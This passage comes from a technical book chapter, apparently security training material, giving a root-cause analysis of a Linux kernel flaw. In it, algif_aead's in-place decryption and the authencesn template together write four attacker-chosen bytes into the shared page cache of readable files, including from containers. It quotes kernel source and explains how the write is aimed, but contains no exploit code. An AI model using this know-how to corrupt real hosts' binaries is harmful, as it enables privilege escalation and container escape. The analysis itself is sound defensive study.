the module is invariably available. The interface is, in short, a piece of kernel
attack surface that is reachable by default, from any uid, from inside any
container whose seccomp policy does not specifically exclude it — and, before this
CVE, no mainstream container runtime excluded it.

<div class="page_break"></div>

### Scatterlists and Their Chaining

**Scatterlists.** The kernel's cryptographic subsystem does not operate on
contiguous virtual buffers. It operates on *scatterlists* (`struct
scatterlist`): arrays of descriptors, each naming a physical page, an offset
within that page and a length, which together describe a logically contiguous
byte stream assembled from physically scattered memory. The descriptor itself is
deliberately small [@linux-scatterlist-header]:

```c
/* include/linux/scatterlist.h */
struct scatterlist {
  unsigned long   page_link;   /* the page, with flags in its low bits */
  unsigned int    offset;      /* first valid byte within that page */
  unsigned int    length;      /* number of bytes from that offset */
  dma_addr_t      dma_address;
};

#define SG_CHAIN        0x01UL       /* page_link points at another array */
#define SG_END          0x02UL       /* last entry: the walk stops here */
```

A `struct page` pointer is always at least four-byte aligned, so the two low bits
of `page_link` are free, and the kernel spends them on flags rather than on a
further field. Three fields therefore describe the data — which page, where in
it, and how much of it — and nothing whatever in the descriptor records the
page's provenance. Every transformation request carries two such arrays: a source
scatterlist (`req->src`), from which input is read, and a destination scatterlist
(`req->dst`), into which output is written.

A scatterlist may be extended by *chaining*. `sg_chain()` overwrites the final
entry of one array so that it names another array in place of a page:

```c
static inline void sg_chain(struct scatterlist *prv, unsigned int prv_nents,
                            struct scatterlist *sgl)
{
  /* offset and length are unused for a chain entry; clear them */
  prv[prv_nents - 1].offset = 0;
  prv[prv_nents - 1].length = 0;
  prv[prv_nents - 1].page_link = ((unsigned long) sgl | SG_CHAIN) & ~SG_END;
}
```

A walk that reaches such an entry — `sg_next()` tests the `SG_CHAIN` bit —
continues transparently into the second array, and halts only at the entry
bearing `SG_END`. Chaining is a routine mechanism for composing a request out of
buffers that were allocated separately, and it carries no notion of who owns the
pages being joined.

<figure>

<figcaption><span class="lbl">Figure.9.1</span>Two separately allocated scatterlist arrays joined by
<code>sg_chain()</code>. The final entry of the first array is not a data
descriptor: its <code>page_link</code> holds a pointer to the second array with
<code>SG_CHAIN</code> set, and its <code>offset</code> and <code>length</code> are
cleared to zero. A consumer walking the result with <code>sg_next()</code>
observes a single contiguous byte stream, and no field of any descriptor
distinguishes a page obtained from the page cache by <code>splice(2)</code> from
one the kernel allocated for its own use.</figcaption>
</figure>
<div class="page_break"></div>


### Authenticated Encryption with Associated Data

An AEAD transformation combines confidentiality and integrity in one operation.
Its input consists of *associated data* (AAD), which is authenticated but not
encrypted, followed by the plaintext or ciphertext proper; its output consists of
the AAD, the transformed payload, and an *authentication tag* of `authsize` bytes.
On decryption the tag is an input, occupying the last `authsize` bytes of the
source, and the operation fails with `EBADMSG` if it does not match. The relevant
structural point is that an AEAD request is not a simple buffer-in, buffer-out
operation: the source and the destination have different lengths and different
internal layouts, and the kernel must arrange for the pieces to line up.

<figure>

<figcaption><span class="lbl">Figure.9.2</span> An AEAD transformation in outline.   The transform itself is
left closed here; Figure 9.3 opens it for <code>authencesn</code>.</figcaption>
</figure>

The object through which a single transformation is submitted to the crypto API is The request object.
It is not itself a buffer, it is a small descriptor carrying the parameters of the operation and two pointers to the
memory the operation is to work on [@linux-aead-header]:

```c
/* include/crypto/aead.h */
struct aead_request {
    struct crypto_async_request base;

    unsigned int assoclen;    /* bytes of associated data, at the front */
    unsigned int cryptlen;    /* bytes of payload, following the AAD */

    u8 *iv;

    struct scatterlist *src;  /* where the input is read from */
    struct scatterlist *dst;  /* where the output is written to */

    void *__ctx[] CRYPTO_MINALIGN_ATTR;
};
```

`src` and `dst` point at the *first entry of a scatterlist array* of the kind
described in Section 9.3.2, and <i>may therefore, through `sg_chain()`, run on into
further arrays whose pages were obtained from somewhere else entirely</i>. The
request does not describe those pages; it only says how many bytes to read and
where the divisions fall — the first `assoclen` bytes are the associated data,
the `cryptlen` bytes after them the payload.

Nothing obliges `src` and `dst` to differ. When both name
the same scatterlist the transformation is performed *in place*, the output
overwriting the input as it is produced, and this is what `algif_aead` arranges
deliberately, as an optimisation. On the decryption path it copies the associated
data and the ciphertext out of the pages the caller sent into the pages the
caller supplied to receive output; it then chains onto the end of that output
list the scatterlist entry describing the *tag*, which still refers to the pages
the caller sent; and it submits the combined list as both `req->src` and
`req->dst` [@linux-algif-aead-inplace]. 

<div class="page_break"></div>


#### The `authencesn` template and the ESN problem.

Among the AEAD algorithms the kernel provides a family of *templates*, which compose a cipher and a MAC into
an authenticated-encryption construction. `authenc(hmac(sha256),cbc(aes))` is the classic encrypt-then-MAC composition used by IPsec ESP. Its variant
`authencesn(...)` exists to support IPsec *Extended Sequence Numbers*, in which the 64-bit anti-replay counter is transmitted as a 32-bit low half inside the packet, while the high half is authenticated but not transmitted. RFC 4303
requires the two halves to be authenticated in a byte order that does not match
their layout in the packet, so the template must rearrange the sequence-number
bytes before computing or verifying the MAC.

That rearrangement is the mechanism at the heart of this vulnerability, and its
implementation deserves emphasis because it is unlike anything else in the
subsystem. `crypto_authenc_esn_decrypt()` performs the reordering by rewriting
the *destination* buffer in place, rather than by assembling a correctly ordered
copy elsewhere. It makes two writes into `req->dst`: the `SPI` is copied down
over the four bytes at offset 4, and the high half of the sequence number is
written at offset `assoclen + cryptlen`. A window beginning at offset 4 and
running `assoclen + cryptlen` bytes then presents the MAC with the order RFC 4303
demands. Once the digest has been computed, `crypto_authenc_esn_decrypt_tail()`
restores bytes 0 to 7 and only those [@xint-copyfail]. 

<figure>

<figcaption><span class="lbl">Figure.9.3</span>The rearrangement performed by
<code>crypto_authenc_esn_decrypt()</code>. The buffer arrives laid out as
<code>SPI</code>, the high half of the sequence number, the low half, the
ciphertext and the tag; RFC 4303, however, requires the ICV to be computed over
<code>SPI</code>, the low half, the payload, and only then the high half. Rather
than assemble a separate buffer in that order, the template rewrites the
destination in place: the <code>SPI</code> is copied down over offset 4, and the
high half is written at offset <code>assoclen + cryptlen</code>, so that a window
beginning at offset 4 presents the required order. Afterwards only bytes 0 to 7
are put back.</figcaption> 
</figure>
The four bytes at `assoclen + cryptlen` are never put back. On the encryption
path this passes unnoticed, because the tag is written over them immediately
afterwards. On the decryption path it does not: that offset is the first byte
beyond the region in which the caller receives output, and it holds the tag the
caller supplied as *input*, so nothing overwrites the scratch value and it
outlives the call. Under the intended usage this remains harmless, because the
buffer belongs to the caller throughout. What makes it a primitive rather than an
untidiness is that the caller chooses both operands: the value written is the
high half of the sequence number, taken from the associated data, and the offset
is determined by `assoclen` and `cryptlen`, which are equally the caller's to
set. No other AEAD implementation in the kernel (GCM, CCM, ChaCha20-Poly1305,
plain `authenc`) writes outside the legitimate output area [@retr0-copyfail].
`authencesn` is thus the only algorithm whose destination buffer is used for
something other than output, and it is the only one the technique can use.


### `splice(2)`, Pipes, and References to Cached Pages

The `AF_ALG` interface accepts input either by copying it from userspace with
`sendmsg(2)` or, more efficiently, by *splicing* it in from a pipe. `splice(2)`
moves data between a file descriptor and a pipe without copying it through
userspace, and the mechanism by which it avoids the copy is the decisive detail:
a Linux pipe is not a byte buffer but a ring of `struct pipe_buffer` entries, each
of which holds a *reference to a page* together with an offset and a length
[@kerrisk2010]. Splicing from a file into a pipe therefore does not read the
file's contents anywhere; it takes the page-cache pages already holding that
file's data, increments their reference counts, and installs pointers to them in
the pipe. Splicing from the pipe into a consumer hands those same page references
onward.

Consequently, when a process splices a file into an `AF_ALG` operation socket,
the socket's transmit scatterlist does not describe a private copy of the file's
bytes. It describes, directly, the kernel's cached pages of that file — pages
that belong to the page cache, that may simultaneously be mapped into the address
space of any number of other processes, and that the splicing process holds no
write permission over whatsoever. This is entirely legitimate: the pages are
being offered as *input* to a cryptographic operation, they are on the source
side of the request, and the source side is read-only by contract. The zero-copy
optimisation is sound precisely as long as that contract holds. Section 9.4
concerns what happens when a page arrives on the source side and, by a separate
optimisation, is also placed on the destination side.

<div class="page_break"></div>

### The Page Cache and Its Relation to the Container Filesystem

The page cache is the kernel's single, system-wide cache of file contents in
memory. Every ordinary read, every `mmap`, and every execution of a binary is
served from it: the kernel reads a page in from the block device once, keeps it,
and satisfies all subsequent accesses from memory until the page is reclaimed or
invalidated [@love2010]. Figure 9.4 shows that arrangement together with the two
structures that implement it.

<figure>

<figcaption><span class="lbl">Figure.9.4</span>The page cache and the structures
that describe it. Above: one binary on the host filesystem, read in once and
thereafter served from the same pages to processes in two containers and on the
host, whatever path each used to reach it. Below: a <code>struct inode</code>
reaches its <code>struct address_space</code> through <code>i_mapping</code>, and
that structure's <code>i_pages</code> xarray maps an offset within the file to the
<code>struct page</code> holding those bytes. Neither structure records write
permission; that question is settled at the system-call boundary, against the path
used to open the file, which is why a subsystem handed a bare page pointer
performs no check of its own.</figcaption>
</figure>

Two structures carry the whole of it. A `struct address_space`, reached from an
inode through its `i_mapping` field, is the cache index for a single file: an
xarray mapping a page-aligned offset within the file to the `struct page` that
holds those bytes. A `struct page` describes one physical 4 KiB frame and records
its `flags`, an `index` giving its offset within the file, and a `mapping`
pointer back to the `address_space` it belongs to. Neither structure records who
is entitled to write the page. Write permission is established once, at the
system-call boundary, against the path by which the file was opened; a kernel
subsystem handed a bare `struct page` pointer inherits no such check, and
performs none of its own. Four consequences of this design bear directly on the
exercise.

- **The cache is keyed by inode, so a container never gets a copy of its own.**
  Pages live in the `address_space` of an inode on a host filesystem, and a
  namespace virtualises only the *names* by which kernel objects are reached. A
  process in one container, a process in a neighbouring container and a process
  on the host that open the same file — by different paths, through different
  bind mounts, through different mount namespaces, through an overlay filesystem's
  lower layer — all arrive at one inode and therefore at one set of pages.
  Writing into those pages from inside a container is writing into the copy that
  everybody else is reading.
- **The cached copy is authoritative, and disk is not consulted again.** Once a
  page is resident, every `execve` and every `read` is served from it, for every
  process on the host, until it is evicted. A change made in the cache alone
  therefore takes full effect on behaviour while the file on disk remains
  byte-for-byte identical: invisible to `sha256sum`, to `dpkg --verify` or
  `rpm -V`, to a file-integrity monitor that re-hashes from the block device, and
  to any inspection performed after a reboot. The modification is at once
  maximally effective and, in the ordinary course of forensic work, unprovable.
- **A container's image layers are host files, shared with every container built
  from them.** The lower layers of an image are ordinary directories of ordinary
  files on the host (Section 8.5.3), and overlayfs serves a read from a lower
  layer by handing back the *underlying* inode's cached pages rather than caching
  a second copy of its own. Corrupting the page cache of, say, `/bin/su` in a
  shared base layer therefore corrupts it for every co-tenant container on the
  node derived from that layer, without any escape from the originating container
  having occurred at all [@xint-copyfail-pod-to-host].
- **A file bind-mounted from the host is the host's own inode.** Where a host
  file is mounted into a container — a configuration file, a helper binary, a CA
  bundle — the container holds an open descriptor onto the host's inode, and the
  pages behind it are the host's page cache for that file. Read access suffices:
  a primitive that writes into the page cache of a merely *readable* file reaches,
  from inside the container, the memory image of a file that host processes
  execute [@xint-copyfail-pod-to-host].

Taken together with Sections 9.3.1 to 9.3.4, these properties fix the shape of the
problem. An unprivileged process inside a container may, using only permitted
system calls, cause the kernel's page cache to be placed on the *source* side of a
cryptographic request; the page cache is shared with the host and with every
co-tenant container; and one algorithm in the crypto subsystem writes four bytes
into the *destination* side of a request at an offset just past the output region.
Section 9.4 examines the 2017 optimisation that connects the source side to the
destination side, and thereby turns three sound mechanisms into an arbitrary write
into files the attacker cannot otherwise touch.

<div class="page_break"></div>

## Root Cause Analysis

Each of the five mechanisms of Section 9.3 is correct on its own terms, and none
was weakened to admit an attacker. `AF_ALG` exposes computation and nothing else;
scatterlist chaining composes one request out of separately allocated arrays;
an AEAD request has a source and a destination of different lengths and layouts;
`splice(2)` passes page references rather than bytes; and the page cache holds
one copy of a file for the entire system. The defect is a property of their
composition, and the composition was created by a single commit.

### The 2017 In-Place Optimisation

Until mid-2017 `algif_aead` operated
*out-of-place*. On receiving a request it built two independent scatterlists: a
*TX SGL*, describing the input the caller had supplied with `sendmsg(2)` or
`splice(2)`, and an *RX SGL*, describing the output buffer the caller had passed
to `recvmsg(2)`. The two were handed to the crypto API as distinct arrays,
`req->src` was the TX list, `req->dst` was the RX list, and no page ever appeared
on both. The transformation read from one and wrote to the other, and the
question of whether the input pages were writable never arose, because nothing
wrote to them.

It had one deficiency, and the commit that removed it exhibits the deficiency in
its own message. Because the AAD is authenticated but not encrypted, no operation 
ever wrote it to the destination, so it did not appear in the caller's output buffer
at all: a `kcapi` encryption of a sixteen-byte plaintext under a sixteen-byte AAD 
returned the ciphertext and tag preceded by sixteen zero
bytes where the associated data should have been. A userspace client of `AF_ALG`
thus received a result that was not the AEAD output in its canonical form, and
had to reassemble it. Commit `72548b093ee3`, *crypto: algif_aead, released in Linux 4.14, 
put the AAD where it belonged [@linux-algif-aead-inplace]. Correcting the omission 
required a copy from the TX list into the RX list.
That leaves the whole of the input present in the caller's buffer, and so allows the
transformation to be invoked <em>in place</em> on that buffer alone, with no second
scatterlist to allocate and no second walk to perform. The optimisation is not
incidental to the fix; it is what the fix was designed to make possible, and the
commit message says so in as many words [@linux-algif-aead-inplace]:

> Use the NULL cipher to copy the AAD and PT/CT from the TX SGL to the RX SGL.
> This allows an in-place crypto operation on the RX SGL for encryption, because
> the TX data is always smaller or equal to the RX data (the RX data will hold
> the tag).
>
> For decryption, a per-request TX SGL is created which will only hold the tag
> value. As the RX SGL will have no space for the tag value and an in-place
> operation will not write the tag buffer, the TX SGL with the tag value is
> chained to the RX SGL. This now allows an in-place crypto operation.

The second paragraph is the defect, stated by its author as a design intention
eight and a half years before it was recognised as one.

<div class="page_break"></div>

The substance of the change is one argument. Before,
the request named two lists; after, it names one twice:

```diff
@@ crypto/algif_aead.c — _aead_recvmsg(), abridged @@
+    /* Use the RX SGL as source (and destination) for crypto op. */
+    src = areq->first_rsgl.sgl.sg;
 
     /* ... the branch that copies AAD || CT into the RX SGL and
            chains the tag entries onto the end of it ... */
 
     /* Initialize the crypto operation */
-    aead_request_set_crypt(&areq->aead_req, areq->tsgl,
+    aead_request_set_crypt(&areq->aead_req, src,
                            areq->first_rsgl.sgl.sg, used, ctx->iv);
```

The two arguments following the request are the source and the destination.
Before the commit they were `areq->tsgl` and `areq->first_rsgl.sgl.sg`: the
per-request TX list and the RX list, two different arrays over two different sets
of pages. After it they are `src` and `areq->first_rsgl.sgl.sg`, and the added
line above assigns `src` the RX list itself — so both arguments now name the same
array. From this commit onward, `req->src` and `req->dst` denote one scatterlist,
on the encryption and the decryption path alike.

Encryption poses no difficulty, because the destination is the larger of the two:
the caller's output buffer must already hold the AAD, the ciphertext and the tag
the kernel is about to generate, so copying the smaller input into it leaves
room. Decryption is the opposite case, and it is the one the commit had to
engineer around. The input is `AAD ‖ CT ‖ Tag`; the output is only `AAD ‖ PT`,
which is shorter by `authsize` bytes, because the tag is consumed rather than
produced. An in-place operation therefore has nowhere within the caller's buffer
to put the tag — and the tag must still be *readable*, since verification needs
it. The commit resolves this by leaving the tag where it is and attaching it. Its
own comment, still present in the source, draws the arrangement
[@linux-algif-aead-source]:


<div class="page_break"></div>
#### How `_aead_recvmsg()` builds it.
The function computes three lengths beforetouching any memory. `used` is the total number of TX bytes the caller has supplied; `outlen`, on the decryption path, is `used - as`, where `as` is theauthentication-tag size established by `ALG_SET_AEAD_AUTHSIZE`; and `processed` is the number of TX bytes the request will consume. It then performs the foursteps of Figure 9.5 [@linux-algif-aead-source]. The identifiers below are those ofthe 5.4 source on the laboratory target rather than of the 2017 tree: when `72548b093ee3` landed the helpers were still private to `algif_aead.c`, and they were hoisted into the shared `af_alg` core later in the same release cycle, a consolidation that renamed them without altering the sequence described here. The names are given as the reader will find them in the kernel the exercise attacks.

1. `af_alg_get_rsgl()` converts the caller's `recvmsg(2)` iovecs into the RX SGL.
   This is not a kernel allocation: `af_alg_make_sg()` pins the caller's own
   userspace pages with `iov_iter_get_pages()` and describes them directly. The
   table is deliberately built one entry longer than the page count — the source
   comments the spare slot as *"Add one extra for linking"* — so that a chain
   entry may later be appended without reallocating.
2. `crypto_aead_copy_sgl(null_tfm, tsgl_src, areq->first_rsgl.sgl.sg, outlen)`
   copies the first `outlen` bytes of the TX stream, namely `AAD ‖ CT`, into the
   RX pages. The copy is performed by submitting an `ecb(cipher_null)` skcipher
   request: the kernel's null transformation is a byte-for-byte copy expressed as
   a cipher, which allows the copy to be driven by the existing scatterlist walk
   machinery rather than by open-coded loops.
3. `af_alg_pull_tsgl(sk, processed, areq->tsgl, processed - as)` releases the TX
   entries that have now been copied and *reassigns* the remainder — the entries
   covering the byte range `[processed - as, processed)`, that is, the tag — into
   a small per-request array, `areq->tsgl`. The pages are not copied and not
   re-obtained; the same `struct page` pointers, with their offsets and lengths
   adjusted, are moved into the new array.
4. `sg_unmark_end()` clears the terminator on the last RX entry and `sg_chain()`
   writes the link into the spare slot, so that a walk of the RX list runs off
   its own end and continues into `areq->tsgl`.

The result is a single logical byte stream of `used` bytes, and it is submitted
as both source and destination. Its first `outlen` bytes are the caller's own RX
pages, holding a copy of the AAD and the ciphertext; everything from offset
`outlen` onward is the tag, and those bytes are not a copy of anything. They are
the original TX pages, moved in step 3, not duplicated, and now readable by the
transform on the strength of nothing more than a chained pointer. So ask the
question this chapter has been building toward: those pages were the caller's
own, this time. 
<em style="font-family:sans;font-style:bold;color:#225DD7;"><strong>What if they weren't?</strong></em>

<figure>

<figcaption><span class="lbl">Figure.9.5</span>The four steps by which
<code>_aead_recvmsg()</code> assembles a decryption request, with the byte offsets
each buffer carries. The three lengths are fixed before any memory is touched, and
their consequence is the identity
<code>processed&nbsp;-&nbsp;as&nbsp;==&nbsp;outlen</code>. Step 1 pins the caller's
own receive pages and reserves one spare scatterlist entry; step 2 copies
<code>AAD&nbsp;‖&nbsp;CT</code> into them through the null cipher; step 3 moves the
tag entries out of the shared TX list into a per-request array, carrying the page
pointers rather than the pages they name; step 4 chains that array onto the end of
the RX list, and the combined list is submitted as both <code>req-&gt;src</code>
and <code>req-&gt;dst</code>. Offset <code>outlen</code> is the seam — the same
byte the template addresses as <code>assoclen&nbsp;+&nbsp;cryptlen</code> — beyond
which the destination is memory the caller supplied only as input.</figcaption>
</figure>

<div class="page_break"></div>

### What `splice(2)` Puts on the Source Side

The TX stream is accumulated from any mixture of `sendmsg(2)` and `splice(2)`, and
the two differ in exactly the way Section 9.3.4 describes. Bytes sent with
`sendmsg(2)` are copied into pages the kernel allocated for the socket. Bytes
spliced in are not copied at all: the pipe holds `struct pipe_buffer` entries that
reference page-cache pages, and the `AF_ALG` sendpage path installs those same
page references in the TX SGL. A process that splices a file it may read into an
operation socket therefore causes the TX SGL to describe the kernel's cached
pages of that file, at whatever offsets within them the file's contents occupy.

This is legitimate, and it remains legitimate after the 2017 commit for every
byte the commit copies. The AAD and the ciphertext are read out of those pages
and written into the caller's own; the page-cache pages are touched only as
input. What the commit changes is the status of the bytes it does *not* copy. The
tag entries are moved verbatim onto the end of a list that the crypto API is
told is the destination. A page whose provenance is the page cache — a page the
calling process holds no write permission over, and which is shared with the host
and with every other container reading the same file — is now addressed by
`req->dst`.

Two properties of the descriptors make this invisible to everything downstream.
First, `struct scatterlist` records a page, an offset and a length and nothing
else (Section 9.3.2); there is no field in which the fact *this page came from
the page cache* could be written, and therefore no field a consumer could
consult. Second, the chaining is transparent by design: `sg_next()` follows the
`SG_CHAIN` bit silently, so a transformation walking `req->dst` cannot tell that
it has crossed from one array into another, still less that the arrays were
obtained from different places.

The arrangement also hands the attacker the targeting mechanism. The chained
entries describe TX bytes `[processed - as, processed)`, and because
`processed - as` equals `outlen`, the first chained byte sits at destination
offset `outlen` exactly. Whichever byte of the spliced file happens to fall at
that boundary is the byte the chain begins at. The attacker chooses which byte
that is, by choosing how much data to splice, from which file offset, and what
values to give `assoclen` and `authsize`.


<div class="page_break"></div>


### What Actually Writes to `req->dst` During a Decryption

The optimisation stood in every mainline kernel for eight and a half years, in a
code path that is under standing automated test (Section 9.4.5), without this
consequence being noticed. The reason is that for every AEAD implementation but
one, the chained tag pages are read and never written. It is worth tracing what a
decryption actually does to its destination.

Three components touch `req->dst` on the decryption path of a generic
construction such as `gcm(aes)`, `ccm(aes)`, `rfc7539(chacha20,poly1305)` or
plain `authenc(hmac(sha256),cbc(aes))`:

- **The authentication stage reads.** The MAC or hash is computed over the
  associated data and the ciphertext, which after the in-place copy are present in
  the destination; the digest it produces is written into a per-request kernel
  buffer reached through `areq_ctx->tail`, never back into the scatterlist.
- **Tag verification reads.** The supplied tag is fetched with
  `scatterwalk_map_and_copy(ihash, req->src, assoclen + cryptlen, authsize, 0)` —
  the trailing `0` selects a read — into a small context buffer, and compared with
  the computed digest by `crypto_memneq()`. The comparison is a comparison; the
  tag region of the destination is never written.
- **The cipher stage writes, but only inside the payload.** The skcipher is
  positioned by `scatterwalk_ffwd(areq_ctx->dst, dst, assoclen)`, which advances
  past the associated data, and is given a length of `cryptlen` after `authsize`
  has been subtracted from it. Its writes are therefore confined to
  `[assoclen, assoclen + cryptlen)` — precisely the region the caller supplied to
  receive plaintext, and precisely the region the in-place copy filled with the
  caller's own RX pages.

The highest destination offset written by a conventional AEAD decryption is thus
the last byte of plaintext, which is the last byte before `outlen`. The chained
tag pages begin at `outlen`. The optimisation is safe for every such algorithm not
because anything checks the boundary, but because no implementation happens to
reach past it.

`authencesn` is the exception, for the reason set out in Section 9.3.3: it is the
only AEAD implementation in the kernel that uses its destination buffer as
scratch space. The extended-sequence-number rearrangement RFC 4303 demands is
performed by rewriting the destination in place rather than by assembling a
correctly ordered copy elsewhere [@rfc4303; @linux-authencesn].

<div class="page_break"></div>

### The Four-Byte Write

The decrypt path of the template reads as follows, with the direction of each
copy annotated; the final argument of `scatterwalk_map_and_copy()` is an
out-flag, `1` denoting a write into the scatterlist and `0` a read from it
[@linux-authencesn]:

```c
/* crypto/authencesn.c — crypto_authenc_esn_decrypt() */
cryptlen -= authsize;                    /* ciphertext, tag excluded */

if (req->src != dst) {                   /* NOT TAKEN: algif_aead made them equal */
	err = crypto_authenc_esn_copy(req, assoclen + cryptlen);
	if (err)
		return err;
}
/* read  — the supplied tag        */
scatterwalk_map_and_copy(ihash, req->src, assoclen + cryptlen, authsize, 0);   

/* Move high-order bits of sequence number to the end. */
scatterwalk_map_and_copy(tmp, dst, 0, 8, 0);   /* read  — SPI ‖ seq_hi       */
scatterwalk_map_and_copy(tmp, dst, 4, 4, 1);   /* write — SPI over offset 4  */
scatterwalk_map_and_copy(tmp + 1, dst,
				 assoclen + cryptlen, 4, 1);   /* write — seq_hi at the seam */
```

Four observations complete the analysis.

**The in-place branch is not taken, and that is the whole of the connection.** The
template contains its own guard, `if (req->src != dst)`, which for an out-of-place
request copies the associated data and ciphertext into the destination before
rearranging it. Under IPsec, the caller for which the template was written, the
guard is likewise skipped, because `esp4.c` sets up an in-place request over
socket-buffer pages the kernel owns. The 2017 commit made `algif_aead` look, to
this guard, exactly like the IPsec stack — while supplying pages of an entirely
different kind.

**The offset is the seam.** After `cryptlen -= authsize`, the expression
`assoclen + cryptlen` evaluates to the length of the output region, which is
`outlen`. The four bytes are therefore written at destination offset `outlen`:
one byte past the last byte the caller's RX pages cover, and the first byte of
the chained tag entry. This is not an arithmetic slip that lands there by
accident. It is where the ESN construction *requires* the high half of the
sequence number to go — immediately after the authenticated payload — and under
the intended in-IPsec usage that location is inside a buffer the kernel owns
outright.

**The value is the caller's.** `tmp` is loaded from destination offsets 0 to 8,
which after the null-cipher copy hold the first eight bytes of the associated
data. `tmp[0]` is the SPI and `tmp[1]` is the high half of the sequence number;
it is `tmp + 1` that is written at the seam. Those four bytes are bytes 4 to 7 of
the AAD, which the attacker sent with `sendmsg(2)` and chose freely. Neither
operand of the write is derived from the key, from the ciphertext, or from
anything the kernel computes.

**It is never undone, and it does not depend on the tag verifying.**
`crypto_authenc_esn_decrypt_tail()` reverses the rearrangement, but only in part:

```c
/* crypto/authencesn.c — crypto_authenc_esn_decrypt_tail() */
	/* Move high-order bits of sequence number back. */
	scatterwalk_map_and_copy(tmp, dst, 4, 4, 0);                       /* read      */
	scatterwalk_map_and_copy(tmp + 1, dst, assoclen + cryptlen, 4, 0); /* read      */
	scatterwalk_map_and_copy(tmp, dst, 0, 8, 1);                       /* write 0–7 */

	if (crypto_memneq(ihash, ohash, authsize))
		return -EBADMSG;
```

The restore reads the scratch value back and uses it to reconstitute bytes 0 to 7
of the destination; it writes nothing at `assoclen + cryptlen`. The four bytes
stay. And because the write is performed before the digest is even computed —
several statements before the `crypto_memneq()` that decides the request's fate —
it lands whether or not the tag is correct. The attacker requires no valid key,
no valid tag and no knowledge of the plaintext. The system call returns
`-EBADMSG`, reporting that the decryption failed and, by implication, that nothing
happened.

Composed, the three elements yield the primitive stated in Section 9.2: four
bytes, of a value the attacker chooses, at an offset the attacker chooses, into
the page cache of any file the attacking process can open for reading. It is
deterministic, it requires no race, and it may be repeated at will.


<div class="page_break"></div>


